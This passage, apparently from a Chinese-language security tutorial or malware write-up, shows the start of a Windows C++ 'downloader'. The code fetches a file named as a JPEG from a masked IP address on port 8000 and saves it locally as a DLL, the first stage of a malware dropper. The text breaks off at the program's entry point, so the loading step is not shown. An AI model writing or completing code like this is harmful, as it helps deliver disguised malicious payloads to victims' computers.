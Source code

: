 ![2019-05-21-17-46-35](../img/8a923611526568494f9866f7ff8f58d9.png)

下载器代码：

```
// Win32Project5.cpp : 定义控制台应用程序的入口点。
//

#include "stdafx.h"
#include <Windows.h>
#include <iostream>
#include <UrlMon.h>
#pragma comment(lib, "urlmon.lib")
using namespace std;

HRESULT DownloadFile(PTCHAR URL, PTCHAR File);

static TCHAR URL[] = TEXT("http://**.**.**.**:8000/fff.jpeg");
static TCHAR SaveFile[MAX_PATH];
static TCHAR FileName[] = TEXT("\\fff.dll");
// 下载文件
HRESULT DownloadFile(PTCHAR URL, PTCHAR File) {
	HRESULT hr = URLDownloadToFile(0, URL, File, 0, NULL);
	return hr;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PSTR szCmdLine, int iCmdShow)

{
```